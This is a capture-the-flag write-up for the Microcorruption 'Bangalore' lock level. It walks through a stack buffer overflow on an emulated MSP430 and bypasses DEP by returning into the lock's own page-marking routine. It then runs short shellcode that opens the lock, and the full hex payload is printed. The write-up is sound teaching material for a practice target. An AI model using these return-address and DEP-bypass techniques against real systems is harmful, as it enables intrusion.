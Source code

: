 ```yaml
---
title: "Microcorruption Bangalore Writeup"
categories: CTF
comments: true
---
```


This level introduces the concept of DEP, or Data Execution Prevention. You can read a lot about DEP elsewhere, but the gist of it is in the name -- it prevents instructions from being executed in certain areas of memory. So simply injecting and running your favorite shellcode will no longer work, if that area of memory is marked as non-executable. We will have to find a way around DEP. Let's check the Lock Manual for the specifics.

Under the interrupts, we can see that `INT 0x10` without any arguments turns on DEP. There doesn't appear to be a way to turn it off. `INT 0x11` marks a page as either only executable, or only writeable. It takes two arguments, the first argument being the page number, the second being 1 if writeable, 0 if executable. Okay, that sound pretty straightforward.

The executable is pretty short and easy to read compared to previous levels. `set_up_protection` is called, which marks pages as writeable or executable, and then turns on DEP.

```
44e0:  0f43           clr	r15
44e2:  b012 b444      call	#0x44b4 <mark_page_executable>
```

The very first page (0x00) is marked executable. This makes sense, since address 0x10 has a callgate causing the software interrupt that must be executable.

```assembly_x86
44e6:  1b43           mov	#0x1, r11
44e8:  0f4b           mov	r11, r15
44ea:  b012 9c44      call	#0x449c <mark_page_writable>
44ee:  1b53           inc	r11
44f0:  3b90 4400      cmp	#0x44, r11
44f4:  f923           jne	#0x44e8 <set_up_protection+0xa>
```

This next section marks the next 0x43 pages as writeable. Since the base of the executable is at address 0x4400, we can probably safely assume the page size is 256 bytes for the MSP430. The remaining pages are all marked as executable.

Strangely, looking at `main`, `login` and `conditional_unlock_door`, the password doesn't appear to be read or validated anywhere. Nowhere is INT 0x7E called. So this lock doesn't appear open at all. Executing shellcode is probably the only way past this level.

```
4526:  3e40 3000      mov	#0x30, r14
452a:  0f41           mov	sp, r15
452c:  b012 6244      call	#0x4462 <getsn>
4530:  3f40 6524      mov	#0x2465, r15
4534:  b012 7a44      call	#0x447a <puts>
4538:  3150 1000      add	#0x10, sp
453c:  3041           ret
```

Breaking on this section shows us that we've got a buffer overflow of size 0x20 (0x30 - 0x10) on the stack, the first word of which is the return address, at 0x3ffe.

Let's try executing some shellcode. We enter the following password:

```
41414141414141414141414141414141 | ee3f
```

This overwrites the `login` return address to 0x3fee, which is the start of our buffer. After entering it, and trying to execute 0x4141, you'll get the following message:

```
Segmentation Fault: can not execute write-only page.
```

That is DEP at work. The page containing our buffer is marked as non-executable. So we can't jump directly into our controlled buffer to execute shellcode. We have to mark our buffer as executable first. How do we do that? First we look at `mark_page_executable`. It takes its arguments from registers r14 and r15.

```
44b6:  0312           push	#0x0
44b8:  0e12           push	r14
44ba:  3180 0600      sub	#0x6, sp
44be:  3240 0091      mov	#0x9100, sr
44c2:  b012 1000      call	#0x10
44c6:  3150 0a00      add	#0xa, sp
```

It pushes 0x0 and the page number in r14 to the stack, and then calls the interrupt, with 0x9100 in the status register, sr (you'll remember 0x11 was the interrupt to mark a page writeable or executable. It's been ANDed with 0x8000. It appears that the most significant bit is some kind of flag). Since we control the stack, we can simply place 0x0 and our page number of choice on the stack, and skip to 0x44ba (we could also skip to 0x44bc, but it would change the alignment for the two interrupt arguments on the stack by 0x6).

So which page do we set to executable? Our buffer spans page 0x3f and 0x40. The shellcode to open the lock is quite small. So in the interest of keeping the entered password short, let's mark page 0x3f as executable.

Let's construct our input to bypass DEP:

```
41414141414141414141414141414141 | ba44 | 3f00 0000 | ee3f
```

The 16 dummy bytes are the password buffer. The next word is the `login` return address. We overwrite this in with 0x44ba in order to jump to the middle of `mark_page_executable`. The next two words are the arguments to the interrupt -- 0x003f is the page number, 0x0000 designates it as executable. The next word is the `mark_page_executable` return address. We overwrite it with 0x3fee in order to return to our buffer.

If you try this, you'll note there is no segfault, the next (garbage) instruction 0x4141 is executed. Success! That means the first part of our buffer is now executable. You may have noticed that the sixth word of our buffer was overwritten with 0x44c6. This was the return address for the interrupt. So that limits our shellcode to 5 words. If we need more, we can simply jump to after the return address, and place our shellcode there.

Now that everything is in place, we need to write the shellcode to open the lock. This is done by triggering `INT 0x7F`. So let's write the instructions to do that.

```
mov       #0xff00, sr
call      #0x10
```

0xff00 is the result of 0x8000 AND 0x7f00. The rest is straightforward. The instructions can be translated into machine code by using the assembler on the site, referencing the MSP430 instruction set, or simply looking for similar instructions in the executable.

Putting it all together, we get the following input that opens the lock.

```
3240 00ff b012 1000 4141 4141 4141 4141 ba44 3f00 0000 ee3f
```
